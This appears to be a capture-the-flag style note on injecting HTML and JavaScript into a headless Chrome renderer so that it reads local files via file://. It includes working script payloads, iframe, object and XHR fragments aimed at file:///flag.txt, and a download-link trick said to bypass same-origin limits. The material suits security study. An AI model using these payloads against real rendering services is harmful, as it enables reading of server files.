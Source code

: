 Main vectors to note for injection:
- Parameters (URL or body)
- User agents
- Other headers

Proving initial working context can be down by testing different payloads, like the one below:

```js
<script>document.write('Location: '+window.location.href+'<br>Origin: '+window.origin)</script>
```

Which will output:

```
Location: file:///tmp/06ed2dccf248f89c8a7fe0ba9b687b39.html Origin: null
```

This points out the use of the `file://` protocol, which can be leveraged. Other protocols to keep in mind though:

- `php://`
- `zip://`
- `data://`
- Both `http://` AND `https://`

Since it hands over the protocol, it can be assumed that the headless chrome is allowed to potentially call other files on the system. These requests can be generated by JS. The `Origin` being set to `null` also indicates local file system access.

HTML and JS can both be injected in an attempt to access resources in similar scenarios. These are not full payloads that will work, but the main component of how `file://` can be utilized from within them:

- `iframe src="file:///flag.txt"` (iframe)
- `object data="file:///flag.txt"` (object tag)
- `xhr.open('GET', 'file:///flag.txt', false);` (XMLHttpRequest)

If the above fail, it can point you in the right direction to try further. They may be blocked by browser security (Same-Origin, stricter `file://` security boundaries, CORS, etc.):

- `Plugin/File not found`
- `Failed to fetch`
- `Failed to execute 'send'`

Luckily headless chrome (and headless browsers in general) run with relaxed security policies. One author from a writeup noted that it was due to being specifically chrome, but I'm not 100% sure that's the case, as the exploit script they used doesn't appear to use anything chrome-specific, it just happens that headless chrome is less hardened (bypassing the Same-Origin policy):

```js
<script> var a = document.createElement('a'); a.download = 'flag.txt'; a.href = 'file:///flag.txt'; document.body.appendChild(a); a.click(); document.write('Download triggered'); </script>
```

```js
// These are blocked by Same-Origin Policy 
fetch('file:///flag.txt')           // ❌ CORS blocked 
xhr.open('GET', 'file:///flag.txt') // ❌ CORS blocked 
// Download links bypass SOP restrictions 
a.href = 'file:///flag.txt'  // ✅ Works in headless context 
a.click()                    // ✅ Triggers download
```
